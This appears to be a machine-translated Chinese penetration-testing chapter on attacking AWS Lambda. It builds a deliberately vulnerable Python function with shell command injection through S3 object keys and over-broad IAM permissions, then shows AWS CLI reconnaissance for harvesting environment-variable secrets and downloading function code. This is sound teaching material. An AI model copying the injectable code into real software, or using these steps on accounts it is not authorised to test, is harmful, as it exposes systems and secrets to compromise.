# AWS Lambda 的安全性和测试

AWS Lambda 是一项了不起的服务，它为用户提供无服务器功能和应用程序。基本上，创建一个 Lambda 函数，其中包含一些要执行的代码，然后创建某种触发器，每当触发该触发器时，Lambda 函数都将执行。用户仅按 Lambda 函数运行所需的时间收费，最长 15 分钟（但可以根据每个函数手动降低）。Lambda 为您的函数提供了多种编程语言，它甚至允许您设置自己的运行时来使用它还不直接支持的语言。在深入研究这一切之前，我们应该弄清楚什么是无服务器。尽管 serverless 听起来好像没有涉及任何服务器，但 Lambda 基本上只是在函数运行期间启动一个独立的服务器。因此，仍然涉及到服务器，但资源调配、强化等都是从用户手中拿出来的。

对于攻击者来说，这意味着我们仍然可以执行代码、使用文件系统，以及执行您可以在常规服务器上执行的大多数其他活动，但有几个注意事项。一个是整个文件系统以只读方式装载，这意味着您不能直接修改系统上的任何内容，除了在`/tmp`目录中。`/tmp`目录是为临时位置提供的，在执行 Lambda 函数期间，可以根据需要将文件写入该临时位置。另一个问题是，您不可能在这些服务器上获得 root 用户。简单明了，您只需要接受这样一个事实：您将永远是 Lambda 函数的低级用户。如果你真的想办法升级到 root 用户，我相信 AWS 安全团队的人会很乐意听到的。

在现实世界中使用 Lambda 的一个示例场景是病毒扫描上传到帐户中特定 S3 存储桶的任何文件。每次将文件上载到该 bucket 时，都会触发 Lambda 函数，并向其传递上载事件的详细信息。然后，函数可能会将该文件下载到`/tmp`目录，然后使用类似 ClamAV（[的东西 https://www.clamav.net/](https://www.clamav.net/) 对其进行病毒扫描。如果扫描通过，执行将完成。如果扫描将该文件伪装为病毒，则可能会删除 S3 中相应的对象。

在本章中，我们将介绍以下主题：

*   设置易受攻击的 Lambda 函数
*   利用读访问攻击 Lambda 函数
*   利用读写访问攻击 Lamda 函数
*   转向虚拟私有云

# 设置易受攻击的 Lambda 函数

上一个用于 S3 中病毒扫描文件的 Lambda 函数示例与我们将在自己的环境中设置的类似，但更复杂。当一个文件上传到我们指定的 S3 存储桶时，我们的函数将被触发，然后它将下载该文件，检查内容，然后根据找到的内容在 S3 中的对象上放置标记。为了我们的演示，这个函数会有一些编程错误，使它容易被利用，所以不要在您的生产帐户中运行它！

在开始创建 Lambda 函数之前，让我们首先设置将触发函数的 S3 存储桶以及函数将承担的 IAM 角色。导航到 S3 仪表板（单击服务下拉菜单并搜索 S3），然后单击创建 bucket 按钮：



S3 仪表板上的创建 bucket 按钮

现在，给你的桶一个唯一的名字；我们将在 lambda pentesting 中使用 bucket，但您可能需要选择其他内容。对于该地区，我们选择美国西部（俄勒冈州），也称为`us-west-2`。然后，单击下一步，再单击下一步，再单击下一步。将这些页面上的所有内容保留为默认设置。现在，您应该看到 S3 存储桶的摘要。单击创建 bucket 以创建它：


单击最后一个按钮以创建 S3 存储桶

现在，当 bucket 名称出现在 bucket 列表中时，单击它，这将完成我们 Lambda 函数的 S3 bucket 设置（目前）。

让该选项卡在浏览器中保持打开状态，然后在另一个选项卡中打开 IAM 仪表板（服务| IAM）。单击屏幕左侧列表中的角色，然后单击左上角的创建角色按钮。在“选择受信任实体的类型”下，选择 AWS 服务，该服务应为默认服务。然后，在选择将使用此角色的服务下，选择 Lambda**、**，然后单击下一步：权限：


为 Lambda 函数创建一个新角色

在此页面上，搜索 AWS 管理策略`AWSLambdaBasicExecutionRole`，然后单击其旁边的复选框。该策略将允许 Lambda 函数将执行日志推送到 CloudWatch，从某种意义上说，它是 Lambda 函数应该提供的最小权限集。可以撤销这些权限，但是 Lambda 函数将继续尝试写入日志，并且它将继续获得拒绝访问的响应，这将对观看的人造成噪音。

现在，搜索 AWS 管理策略`AmazonS3FullAccess`，并单击其旁边的复选框。这将为我们的 Lambda 函数提供与 S3 服务交互的能力。请注意，这个策略对于我们的 Lambda 函数用例来说过于宽松，因为它允许 S3 完全访问任何 S3 资源，而从技术上讲，我们只需要对 Lambda pentesting S3 bucket 的单个 bucket 拥有一些 S3 权限。通常，您会在正在攻击的 AWS 帐户中发现过度特权的资源，这只会使攻击者受益，因此这将是我们演示场景的一部分。

现在，单击屏幕右下角的“下一步：标记”按钮。我们不需要向这个角色添加任何标记，因为这些标记通常用于我们现在需要担心的以外的其他原因，所以只需单击 Next:Review now。现在，为您的角色创建一个名称；我们将在本演示中将其命名为`LambdaRoleForVulnerableFunction`，我们将保留默认的角色描述，但如果您愿意，您可以在其中编写自己的描述。现在，通过单击屏幕右下角的创建角色来完成此部分。如果一切顺利，您将在屏幕顶部看到一条成功消息：


我们的 IAM 角色已成功创建

最后，我们可以开始创建实际易受攻击的 Lambda 函数。为此，请导航到 Lambda 仪表板（Services | Lambda），然后单击 Create a function，该函数应显示在欢迎页面上（因为您可能还没有创建任何函数）。请注意，这仍然是在美国西部（俄勒冈州）/`us-west-2`地区，就像我们的 S3 桶一样。

然后，在顶部从头开始选择作者。现在，给你的函数起个名字。我们将为这个演示命名为`VulnerableFunction`。接下来，我们需要选择运行时，它可以是多种不同的编程语言。对于这个演示，我们将选择 Python3.7 作为运行时。

对于 Role 选项，选择 chooseanexistingrole，然后在 existingrole 选项下，选择我们刚刚创建的角色（LambdaRoleForVulnerableFunction）。要完成此操作，请单击右下角的“创建函数”：



为新的易受攻击 Lambda 函数设置的所有选项

现在，您应该进入新的 vulnerable 函数的仪表板，该函数允许您查看和配置 Lambda 函数的各种设置。

我们暂时可以忽略本页上的大部分内容，但如果您想了解更多关于 Lambda 本身的信息，我建议您阅读 AWS 用户指南：[https://docs.aws.amazon.com/lambda/latest/dg/welcome.html](https://docs.aws.amazon.com/lambda/latest/dg/welcome.html) 。现在，向下滚动至功能代码部分。我们可以看到 Handler 下的值是`lambda_function.lambda_handler`。这意味着调用函数时，`lambda_function.py`文件中名为`lambda_handler`的函数将作为 Lambda 函数的入口点执行。`lambda_function.py`文件应该已经打开，如果没有打开，双击功能代码部分左侧的文件列表：


Lambda 函数处理程序以及这些值引用的内容

如果为函数的运行时选择了不同的编程语言，则可能会遇到稍有不同的格式，但一般来说，它们应该是相似的。

现在我们已经创建了 Lambda 函数、Lambda 函数的 IAM 角色和 S3 bucket，我们将在 S3 bucket 上创建事件触发器，该触发器将在每次启动 Lambda 函数时调用它。要执行此操作，请返回 lambda pentesting S3 存储桶所在的浏览器选项卡，单击属性选项卡，然后向下滚动至高级设置下的选项，并单击事件按钮：



访问 S3 存储桶的事件设置

接下来，单击添加通知并将此通知命名为`LambdaTriggerOnS3Upload`。在事件部分下，选中所有对象创建事件**、**旁边的复选框，这将满足我们的需要。我们希望将此通知的前缀和后缀留空。点击 Send to（发送到）下拉菜单并选择 Lambda Function（Lambda 函数），它将显示另一个下拉菜单，您可以在其中选择我们创建的函数`VulnerableFunction`。要将其全部结束，请单击“保存”：



新通知所需的配置

单击保存后，**事件**按钮应显示 1 个活动通知：



我们刚刚设置的通知。

如果切换回 Lambda 函数仪表板并刷新页面，您应该会看到 S3 已添加为设计器部分左侧 Lambda 函数的触发器：


Lambda 函数知道它将由我们刚刚设置的通知触发

基本上，我们刚才所做的是告诉我们的 S3 bucket，每次创建一个对象（`/uploaded/`等等），它都应该调用我们的 Lambda 函数。S3 将自动调用 Lambda 函数，并通过`event`参数传入上传文件的详细信息，这是我们函数接受的两个参数之一（`event`和`context`。Lambda 函数可以在执行过程中通过查看`event`的内容来读取该数据。

为了完成易受攻击 Lambda 函数的设置，我们需要添加一些易受攻击的代码！在 Lambda 功能仪表板上的“功能代码”下，将默认代码替换为以下代码：

```
import boto3
import subprocess
import urllib

def lambda_handler(event, context):
    s3 = boto3.client('s3')

    for record in event['Records']:
        try:
            bucket_name = record['s3']['bucket']['name']
            object_key = record['s3']['object']['key']
            object_key = urllib.parse.unquote_plus(object_key)

            if object_key[-4:] != '.zip':
                print('Not a zip file, not tagging')
                continue

            response = s3.get_object(
                Bucket=bucket_name,
                Key=object_key
            )

            file_download_path = f'/tmp/{object_key.split("/")[-1]}'
            with open(file_download_path, 'wb+') as file:
                file.write(response['Body'].read())

            file_count = subprocess.check_output(
                f'zipinfo {file_download_path} | grep ^- | wc -l',
                shell=True,
                stderr=subprocess.STDOUT
            ).decode().rstrip()
            s3.put_object_tagging(
                Bucket=bucket_name,
                Key=object_key,
                Tagging={
                    'TagSet': [
                        {
                            'Key': 'NumOfFilesInZip',
                            'Value': file_count
                        }
                    ]
                }
            )
        except Exception as e:
            print(f'Error on object {object_key} in bucket {bucket_name}: {e}')
    return
```

在我们继续阅读本章时，我们将更深入地了解此函数中发生了什么。简单来说，每当一个文件上传到我们的 S3 存储桶时，就会触发这个函数；它将确认该文件具有`.zip`扩展名，然后将该文件下载到`/tmp`目录。下载后，它将使用`zipinfo`、`grep`和`wc`程序计算 ZIP 文件中存储了多少文件。然后，它将向 S3 中的对象添加一个标记，指定该 ZIP 文件中有多少文件。您可能已经或者可能还没有看到某些事情可能会出错，但我们将在稍后讨论。

我们要做的最后一件事是下拉到 Lambda 仪表板的环境变量部分，并添加一个带有键`app_secret`和值`1234567890`的环境变量：



将 app_secret 环境变量添加到函数中。

要完成此部分，只需单击屏幕右上角的大橙色保存按钮，将此代码保存到 Lambda 函数中，我们就可以继续了。

# 利用读访问攻击 Lambda 函数

要启动本章的只读部分，我们将创建一个具有特定权限集的新 IAM 用户。这就是我们将用来演示攻击的用户，因此我们可以假设我们只是通过一种或另一种方法泄露了该用户的密钥。这些权限将允许对 AWS Lambda 进行只读访问，并允许对 S3 进行对象上载访问，但除此之外没有其他权限。我们不打算详细介绍创建用户、设置其权限以及将其密钥添加到 AWS CLI 的整个过程，因为我们在前面的章节中介绍了这一点。

因此，继续创建一个新的 IAM 用户，通过编程访问 AWS。对于本演示，我们将命名该用户`LambdaReadOnlyTester`。接下来，我们将使用以下 JSON 文档添加自定义内联 IAM 策略：

```
{
    "Version": "2012-10-17",
     "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "lambda:List*",
                "lambda:Get*",
                "s3:PutObject"
            ],
            "Resource": "*"
        }
    ]
}
```

如您所见，我们可以使用任何以`List`或`Get`开头的 Lambda API，并且我们可以使用 S3`PutObject`API。这就像我在很多 AWS 环境中看到的一样，在这些环境中，用户对各种资源拥有广泛的读取权限，然后还有一些额外的 S3 权限，例如上传文件的能力。

当将 AWS Lambda 视为攻击者时，首先要做的是获取帐户中每个 Lambda 函数的所有相关数据。这可以通过 Lambda`ListFunctions`API 实现。对于这个演示，我们已经知道我们要攻击的函数在`us-west-2`中，但是在实际场景中，您可能希望检查每个区域是否有可能感兴趣的 Lambda 函数。我们将首先运行以下 AWS CLI 命令：

```
aws lambda list-functions --profile LambdaReadOnlyTester --region us-west-2
```

我们应该得到一些好消息。首先要寻找的是环境变量。我们自己设置了这个易受攻击的函数，因此环境变量对我们来说不是什么大秘密，但是作为一个事先不知道的攻击者，您通常可以发现存储在函数的环境变量中的敏感信息。这个信息在我们刚刚在`"Environment"`键下进行的`ListFunctions`调用中返回给我们，对于我们易受攻击的函数，它应该是这样的：

```
"Environment": {
    "Variables": {
        "app_secret": "1234567890"
    }
}
```

您可以指望在 Lambda 函数的环境变量中找到各种意想不到的东西。作为攻击者，`"app_secret"`的值听起来很有趣。在过去的渗透测试中，我在环境变量中发现了各种秘密，包括第三方服务的用户名/密码/API 密钥，完全不同帐户的 AWS API 密钥，等等。只需查看几个 Lambda 函数的环境变量，我就可以多次升级自己的权限，因此注意存储的内容非常重要。我们自己设置了这个易受攻击的函数，所以我们知道我们无法使用`"app_secret"`环境变量，但包含它是为了演示这个想法。

运行 Lambda`ListFunctions`API 调用时，只有当函数设置了环境变量时，`"Environment"`键才会被包含；否则，它将不会显示在结果中，因此如果没有可用的内容，请不要担心。

签出环境变量后，现在是查看每个 Lambda 函数的代码的好时机。要从 AWS CLI 执行此操作，我们可以使用从`ListFunctions`返回的函数列表，并通过 Lambda`GetFunction`API 调用运行每个函数。对于易受攻击的函数，我们可以运行以下命令：

```
aws lambda get-function --function-name VulnerableFunction --profile LambdaReadOnlyTester --region us-west-2
```

在运行`ListFunctions`时，每个函数的输出看起来都是返回的，但是有一个重要的区别，那就是增加了`Code`键。此键将包括`RepositoryType`和`Location`键，这是我们将代码下载到此函数的方式。我们所需要做的就是复制代码|位置下的 URL 并将其粘贴到我们的 web 浏览器中。提供的 URL 是一个预先签名的 URL，允许我们访问存储 Lambda 代码的 S3 存储桶。访问页面后，应下载一个以`VulnerableFunction`开头的`.zip`文件。

如果您解压缩该文件，您将看到一个文件`lambda_function.py`，它是存储 Lambda 函数代码的地方。在许多情况下，其中会有多个文件，例如第三方库、配置文件或二进制文件。

尽管我们的易受攻击函数相对较短，但我们将把它当作大量代码来处理，我们无法通过手动快速分析来模拟真实情况，因为您可能不熟悉 Lambda 函数使用的编程语言。

将函数解压缩到计算机后，我们现在将开始对包含的代码进行静态分析。我们知道该函数正在运行 Python 3.7，因为当我们运行`ListFunctions`和`GetFunction`时，这是在`Runtime`下列出的，并且因为主文件是`.py`文件。对代码进行静态分析有很多选择，免费和付费，不同编程语言的选择也不同，但我们将使用`Bandit`，它被描述为一种用于查找 Python 代码中常见安全问题的工具。在继续之前，请注意，仅仅因为我们在这里使用它，并不一定意味着它是最好的和/或它是完美的。我总是建议你做自己的研究，尝试不同的工具来找到一个你喜欢的，但班迪特是一个我个人喜欢的工作。Bandit 位于 GitHub 的[上 https://github.com/PyCQA/bandit](https://github.com/PyCQA/bandit) [。](https://github.com/PyCQA/bandit)

Bandit 的安装很简单，因为它是通过 PyPI 提供的，这意味着我们可以使用 Python 包管理器`pip`来安装它。按照 Bandit GitHub 上的说明，我们将运行以下命令（请确保自己检查，以防自编写此命令以来有任何更新）：

```
virtualenv bandit-env
pip3 install bandit
```

我们使用`virtualenv`，以避免安装 Python 依赖项时出现任何问题，然后我们使用`pip3`安装`bandit`，因为我们要分析的代码是用 Python 3 编写的。在撰写本文时，已安装 Bandit 1.5.1 版，因此，如果在本节其余部分遇到任何问题，请注意您自己安装的版本。安装后，我们可以将目录更改为解压 Lambda 函数的目录，然后使用`bandit`命令将代码指向文件夹。我们可以使用以下命令执行此操作：

```
bandit -r ./VulnerableFunction/
```

现在将扫描 Lambda 函数，`-r`标志指定递归，就像扫描`VulnerableFunction`文件夹中的每个文件一样。我们现在只有一个文件在那里，但是很高兴知道这个标志对我们正在扫描的更大的 Lambda 函数有什么作用。在 Bandit 完成后，我们将看到它报告了三个不同的问题：一个是低严重性和高置信度，一个是中等严重性和中等置信度，另一个是高严重性和高置信度：


Bandit 输出的结果

通常，静态源代码分析工具将输出合理数量的误报，因此仔细检查每个问题以验证它是否是真正的问题非常重要。静态分析工具也缺乏关于如何使用代码的上下文，因此安全问题可能是某些代码的问题，但对其他代码来说不是什么大问题。在回顾 Bandit 提出的第二个问题时，我们将更多地关注上下文。

看看 Bandit 报道的第一期，我们可以看到信息`Consider possible security implications associated with the subprocess module`，这很有道理。子流程模块用于在计算机上生成新流程，如果操作不正确，可能会带来安全风险。我们将继续并将其标记为有效问题，但在查看代码时更需要记住这一点。

Bandit 报告的第二个问题告诉我们`Probable insecure usage of temp file/directory`，它向我们展示了代码行，其中一个变量被分配了`/tmp`目录中的文件路径值，并附加了另一个变量`object_key`。这是一个安全问题，在某些应用程序中可能是一个大问题，但是考虑到 Lambda 函数的上下文，我们可以假设在这种情况下这不是一个问题。为什么？部分安全风险来自用户能够控制文件路径的可能性。用户可能会插入路径遍历序列，或者做一些类似于欺骗脚本的事情，将临时文件写入其他地方，例如`/etc/shadow`，这可能会产生危险的后果。这对我们来说不是问题，因为代码是在 Lambda 中运行的，这意味着它是在只读文件系统上运行的；因此，即使有人能够遍历出`/tmp`目录，该函数也无法覆盖系统上的任何重要文件。这里可能会出现其他问题，但没有任何直接适用于我们的问题，因此我们可以继续并将此问题作为假阳性处理。

继续讨论 Bandit 提出的最后一个也是最严重的问题，我们看到了`subprocess call with shell=True identified, security issue`，听起来很有趣。这告诉我们，一个新的进程正在生成，可以访问操作系统外壳，这可能意味着我们可以注入外壳命令！查看 Bandit 标记的行（第 30 行），我们甚至可以看到一个 Python 变量（`file_download_path`）直接连接到正在运行的命令中。这意味着，如果我们能够以某种方式控制该值，我们可以修改操作系统上运行的命令以执行任意代码。

接下来，我们想看看`file_download_path`在哪里被赋值。我们知道它的任务出现在 Bandit（第 25 行）的第 2 期中，如下所示：

```
file_download_path = f'/tmp/{object_key.split("/")[-1]}'
```

就像第 30 行中的字符串一样，使用的是 Python 3`f`字符串（请参见[https://docs.python.org/3/whatsnew/3.6.html#pep-498 格式化的字符串文字](https://docs.python.org/3/whatsnew/3.6.html#pep-498-formatted-string-literals)获取更多信息），基本上允许您在字符串中嵌入变量和代码，因此您不必进行任何混乱的连接，用加号之类的。这里我们可以看到，`file_download_path`是一个字符串，代码中包含另一个变量，`object_key`，它在其中的每个`"/"`处被拆分。然后，`[-1]`表示使用在`"/"`处拆分创建的列表的最后一个元素。

现在，如果我们追溯`object_key`变量，看看它被分配到哪里，我们可以在第 13 行看到它被分配了`record['s3']['object']['key']`的值。好的，我们可以看到函数期望`event`变量包含关于 S3 对象的信息（以及 S3 bucket，第 11 行）。我们想弄清楚我们是否能够以某种方式控制该变量的值，但鉴于我们作为攻击者所处的环境，我们不知道该函数何时（或是否）被定期调用，我们也不知道如何调用。我们可以检查的第一件事是，是否存在与 Lambda 函数相关联的任何事件源映射。这可以通过以下命令完成：

```
aws lambda list-event-source-mappings --function-name VulnerableFunction --profile LambdaReadOnlyTester --region us-west-2
```

在这种情况下，我们只能得到一个空列表，如下所示：

```
{
    “EventSourceMappings”: []
}
```

事件源映射基本上是将 Lambda 函数连接到另一个服务的一种方式，以便在该服务中发生其他事件时可以触发它。一个示例事件源映射是使用 DynamoDB，其中每次在 DynamoDB 表中修改一个项时，它都会使用添加到该表中的内容触发 Lambda 函数。正如您所看到的，我们当前的函数没有这样的关联，但是现在不是恐慌的时候！并非每个自动触发源都会显示为事件源映射。

下一步将查看 Lambda 函数资源策略，它基本上指定了可以调用此函数的内容。要获取资源策略，我们将使用`GetPolicy`API：

```
aws lambda get-policy --function-name VulnerableFunction --profile LambdaReadOnlyTester --region us-west-2
```

如果幸运的话，我们将得到一个 JSON 对象来响应这个 API 调用，但是如果没有，我们可能会收到一个 API 错误，资源找不到。这表明没有为 Lambda 函数设置资源策略。如果是这样的话，那么我们可能无法以任何方式调用这个 Lambda 函数，除非我们碰巧拥有`lambda:InvokeFunction`权限（但在本例中我们没有）。

今天一定是我们的幸运日，因为我们收到了一份保单。除了`000000000000`将被您自己的 AWS 帐户 ID 替换，并且修订 ID 也将不同之外，它应该类似于以下内容：

```
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Id\":\"default\",\"Statement\":[{\"Sid\":\"000000000000_event_permissions_for_LambdaTriggerOnS3Upload_from_bucket-for-lambda-pentesting_for_Vul\",\"Effect\":\"Allow\",\"Principal\":{\"Service\":\"s3.amazonaws.com\"},\"Action\":\"lambda:InvokeFunction\",\"Resource\":\"arn:aws:lambda:us-west-2:000000000000:function:VulnerableFunction\",\"Condition\":{\"StringEquals\":{\"AWS:SourceAccount\":\"000000000000\"},\"ArnLike\":{\"AWS:SourceArn\":\"arn:aws:s3:::bucket-for-lambda-pentesting\"}}}]}",
    "RevisionId": "d1e76306-4r3a-411c-b8cz-6x4731qa7f00"
}
```

凌乱难懂，对吧？这是因为 JSON 对象被存储为字符串，作为另一个 JSON 对象中键的值。为了让这一点更清楚，我们可以从`"Policy"`键中复制整个值，删除转义字符（`\`，并添加一些漂亮的缩进，然后我们将得到以下结果：

```
{
    "Version": "2012-10-17",
    "Id": "default",
    "Statement": [
        {
            "Sid": "000000000000_event_permissions_for_LambdaTriggerOnS3Upload_from_bucket-for-lambda-pentesting_for_Vul",
            "Effect": "Allow",
            "Principal": {
                "Service": "s3.amazonaws.com"
            },
            "Action": "lambda:InvokeFunction",
            "Resource": "arn:aws:lambda:us-west-2:000000000000:function:VulnerableFunction",
            "Condition": {
                "StringEquals": {
                    "AWS:SourceAccount": "000000000000"
                },
                "ArnLike": {
                    "AWS:SourceArn": "arn:aws:s3:::bucket-for-lambda-pentesting"
                }
            }
        }
    ]
}
```

看起来好多了，不是吗？我们所看到的是一个 JSON 策略文档，它指定了什么可以调用这个 Lambda 函数，我们可以看出这一点，因为`"Action"`被设置为`"lambda:InvokeFunction"`。接下来，我们可以看看`"Principal"`，它被设置为 AWS 服务 S3。这听起来不错，因为我们知道该函数正在处理 S3 对象。在`"Resource"`下，我们可以看到 Lambda 函数的 ARN，正如预期的那样。在`"Condition"`项下，我们看到`"AWS:SourceAccount"`必须是`000000000000`，这是我们正在使用的帐户 ID，所以这很好。在`"Condition"`下面还有`"ArnLike"`，显示了 S3 桶的 ARN。我们没有去确认这些信息所需的 S3 权限，但我们可以做出合理的假设，即已经设置了某种 S3 事件，以便在发生某些事情时调用此函数（我们知道这是真的，因为我们之前已经设置了它）。

